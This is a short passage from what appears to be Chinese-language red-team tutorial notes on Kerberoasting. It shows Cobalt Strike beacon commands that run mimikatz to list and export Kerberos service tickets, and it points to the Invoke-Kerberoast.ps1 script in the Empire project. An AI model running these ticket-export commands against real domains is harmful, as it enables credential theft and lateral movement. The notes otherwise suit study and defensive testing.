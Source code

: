 ```
beacon> mimikatz kerberos::list    
```

![image-20220925185950039](../../.gitbook/assets/image-20220925185950039.png)



## 服务票据的导出

### 使用 Mimikatz 工具导出

```
beacon> mimikatz kerberos::list /export
```

![QQ录屏20220925175922](../../.gitbook/assets/QQ录屏20220925175922.gif)



### 使用 Invoke-Kerberoast.ps1 脚本

> 项目地址：https://github.com/EmpireProject/Empire
